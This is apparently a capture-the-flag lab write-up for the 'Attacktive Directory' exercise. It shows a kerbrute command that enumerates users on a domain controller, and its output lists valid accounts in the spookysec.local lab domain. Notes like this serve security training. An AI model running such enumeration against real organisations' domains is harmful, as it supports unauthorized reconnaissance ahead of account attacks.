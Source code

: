 ```
10.10.255.5 - Attacktive Direcory
```

> used kerbrute to enum users
	kerbrute enumusers --dc <ip> -d <domain> usernames.txt

> got a list of users
	2021/07/20 14:06:52 >  [+] VALID USERNAME:       james@spookysec.local
	2021/07/20 14:06:56 >  [+] VALID USERNAME:       svc-admin@spookysec.local
	2021/07/20 14:07:00 >  [+] VALID USERNAME:       James@spookysec.local
	2021/07/20 14:07:02 >  [+] VALID USERNAME:       robin@spookysec.local
	2021/07/20 14:07:29 >  [+] VALID USERNAME:       darkstar@spookysec.local
	2021/07/20 14:07:40 >  [+] VALID USERNAME:       administrator@spookysec.local
	2021/07/20 14:08:02 >  [+] VALID USERNAME:       backup@spookysec.local
	2021/07/20 14:08:12 >  [+] VALID USERNAME:       paradox@spookysec.local
	2021/07/20 14:09:46 >  [+] VALID USERNAME:       JAMES@spookysec.local
	2021/07/20 14:10:11 >  [+] VALID USERNAME:       Robin@spookysec.local
	2021/07/20 14:12:28 >  [+] VALID USERNAME:       Administrator@spookysec.local

>